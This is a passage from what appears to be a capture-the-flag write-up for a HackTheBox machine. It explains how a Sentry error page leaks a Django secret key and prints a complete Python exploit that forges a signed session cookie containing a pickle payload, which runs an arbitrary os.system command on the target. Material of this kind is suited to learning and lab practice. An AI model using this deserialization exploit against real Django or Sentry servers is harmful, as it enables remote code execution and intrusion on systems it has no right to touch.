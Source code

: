 Registering new account and login don't give anything interesting. but login with django admin creds with email `Jacob@developer.htb` got admin panel in sentry.

## Django Deserialization



And there's the issue, when we create a project and then try to remove it. api through an error; [full error](/assets/img/posts/developer/ApiError.png)

And this error leaks the django webapp secret key

![](/assets/img/posts/developer/sentry-secret.png)



* There is a blog post on django Remote Code Execution using api secret key from [blog.scrt.ch](https://blog.scrt.ch/2018/08/24/remote-code-execution-on-a-facebook-server/)


Here's the exploit script, *copied from 0xdf blog*
```py
import os
import django.contrib.sessions.serializers
import django.core.signing
import requests
import sys


cmd = sys.argv[1]
SECRET_KEY = 'c7f3a64aa184b7cbb1a7cbe9cd544913'
cookie = ".eJxrYKotZNQI5UxMLsksS80vSo9gY2BgKE7NKymqDGUpLk3Jj-ABChQEFyZaljmblJv7-hQyRXABhUpSi0uS8_OzM1PBWsrzi7JTU0KF4hNLSzLiS4tTi-KTEpOzU_NSQpUgxumVlmTmFOuB5PVccxMzcxyBLCeoGl4kfZkp3qylegCrOjNK:1m45xH:Zcs2GcAl2Knls_STRUkB22PKJlg"
newContent = django.core.signing.loads(cookie, key=SECRET_KEY,
                                       serializer=django.contrib.sessions.serializers.PickleSerializer,
                                       salt='django.contrib.sessions.backends.signed_cookies')


class PickleRce(object):
    def __reduce__(self):
        return os.system, (cmd,)


newContent['testcookie'] = PickleRce()

cookie = django.core.signing.dumps(newContent, key=SECRET_KEY,
                                   serializer=django.contrib.sessions.serializers.PickleSerializer,
                                   salt='django.contrib.sessions.backends.signed_cookies', compress=True)
print("Forged cookie:\n" + cookie)

requests.get("http://developer-sentry.developer.htb/sentry/", cookies={"sentrysid": cookie})
```
